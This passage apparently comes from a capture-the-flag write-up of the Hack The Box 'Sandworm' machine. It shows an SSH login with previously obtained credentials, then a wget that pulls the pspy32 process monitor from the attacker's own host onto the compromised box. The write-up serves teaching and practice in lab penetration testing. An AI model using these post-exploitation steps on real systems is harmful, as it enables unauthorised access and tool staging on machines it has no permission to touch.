 - Using these credentials, we logged into the system as `silentobserver`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh silentobserver@ssa.htb
silentobserver@ssa.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov  4 03:13:21 PM UTC 2023

  System load:           0.0
  Usage of /:            91.6% of 11.65GB
  Memory usage:          19%
  Swap usage:            0%
  Processes:             222
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.218
  IPv6 address for eth0: dead:beef::250:56ff:feb9:9dbf

  => / is using 91.6% of 11.65GB


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jun 12 12:03:09 2023 from 10.10.14.31
silentobserver@sandworm:~$ id; whoami
uid=1001(silentobserver) gid=1001(silentobserver) groups=1001(silentobserver)
silentobserver
```

- After gaining access, we brought `pspy32` to the system using the `wget`. This tool helped us monitor processes that were running at specific intervals.

```shell
silentobserver@sandworm:/tmp/curiosity-hackthebox$ wget http://10.10.14.75/pspy32
--2023-11-04 15:15:43--  http://10.10.14.75/pspy32
Connecting to 10.10.14.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2940928 (2.8M) [application/octet-stream]
Saving to: ‘pspy32’

pspy32                                          100%[====================================================================================================>]   2.80M  86.6KB/s    in 23s     

2023-11-04 15:16:07 (123 KB/s) - ‘pspy32’ saved [2940928/2940928]

silentobserver@sandworm:/tmp/curiosity-hackthebox$ chmod +x pspy32
```

